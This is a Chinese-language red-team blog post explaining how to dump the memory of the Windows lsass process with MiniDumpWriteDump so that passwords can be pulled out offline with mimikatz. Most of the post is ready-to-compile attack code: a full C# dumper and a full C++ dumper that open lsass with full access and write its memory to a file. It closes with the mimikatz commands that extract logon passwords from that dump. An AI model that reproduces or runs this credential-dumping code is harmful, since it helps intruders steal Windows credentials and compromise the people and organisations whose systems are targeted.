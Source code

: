 ```yaml
---
layout:     post
title:    技巧-利用MiniDumpWriteDump 转储 lsass
subtitle:   利用MiniDumpWriteDump 转储 lsass
date:       2020-02-26
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 技巧
    - 红队
    
---
```

# 技巧-利用MiniDumpWriteDump 转储 lsass

## MiniDumpWriteDump
有些环境下可能无法上传或者利用mimikatz，可以转储lsass，然后本地离线用mimikatz读取密码。  
用来将指定进程的内存转储保存为文件，就是生成的文件有点大。  
函数：  
```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,
  DWORD                             ProcessId,
  HANDLE                            hFile,
  MINIDUMP_TYPE                     DumpType,
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```
具体可以看文档：[https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)  

## C#翻车版本
直接贴代码，直接编译就能用。但是有点问题。  
```
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.IO;


namespace LsassDump
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("[+]Start Dump.........");
            MiniDump.TryDump("MiniDmp.dmp", MiniDump.MiniDumpType.WithFullMemory);
            Console.WriteLine("[+]OK");
            Console.ReadKey();
        }
    }


    public static class MiniDump
    {
        /*
         * 导入DbgHelp.dll
         */
       
        [DllImport("dbghelp.dll",
            EntryPoint = "MiniDumpWriteDump",
            CallingConvention = CallingConvention.Winapi,
            CharSet = CharSet.Unicode,
            ExactSpelling = true,
            SetLastError = true)]
        private static extern bool MiniDumpWriteDump(
                                    IntPtr hProcess,
                                    Int32 processId,
                                    IntPtr fileHandle,
                                    MiniDumpType dumpType,
                                    IntPtr expParam,
                                    IntPtr userStreamParam,
                                    IntPtr callbackParam);
     

        /*
         * 封装的一个函数
         */
        public static Boolean TryDump(String dmpPath, MiniDumpType dmpType)
        {

            //使用文件流来创健 .dmp文件
            using (FileStream stream = new FileStream(dmpPath, FileMode.Create))
            {
                //取得进程信息
                Process[] process = Process.GetProcessesByName("lsass");
                Console.WriteLine("[+]Process ID:" + process[0].Id);
      

                //调用Win32API
                Boolean res = MiniDumpWriteDump(
                                    process[0].Handle,
                                    process[0].Id,
                                    stream.SafeFileHandle.DangerousGetHandle(),
                                    dmpType,
                                    IntPtr.Zero,
                                    IntPtr.Zero,
                                    IntPtr.Zero);

                //清空 stream
                stream.Flush();
                stream.Close();

                return res;   
            }
        }

        public enum MiniDumpType
        {
            None = 0x00010000,
            Normal = 0x00000000,
            WithDataSegs = 0x00000001,
            WithFullMemory = 0x00000002,
            WithHandleData = 0x00000004,
            FilterMemory = 0x00000008,
            ScanMemory = 0x00000010,
            WithUnloadedModules = 0x00000020,
            WithIndirectlyReferencedMemory = 0x00000040,
            FilterModulePaths = 0x00000080,
            WithProcessThreadData = 0x00000100,
            WithPrivateReadWriteMemory = 0x00000200,
            WithoutOptionalData = 0x00000400,
            WithFullMemoryInfo = 0x00000800,
            WithThreadInfo = 0x00001000,
            WithCodeSegs = 0x00002000
        }
    }
}
```
win10下测试没有问题，但是跑到win7上不管什么用户去执行都不行，会抛出内存访问被拒绝的异常，导个win10也没啥用，就图一乐？  
![200226_1](/img/200226_dumperror.png)  

## C++版本
参考了这里的代码：[https://ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass](https://ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass)  
```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
编译出来。   
在win10没有问题，在win7下测试也没有问题，管理员权限运行能正常导出。  
![200226_2](/img/200226_dumpok.png)  
再用mimikatz测试：  
```
sekurlsa::minidump MiniDmp.dmp
sekurlsa::logonpasswords
```
![200226_3](/img/200226_mimikatz.png)  


  
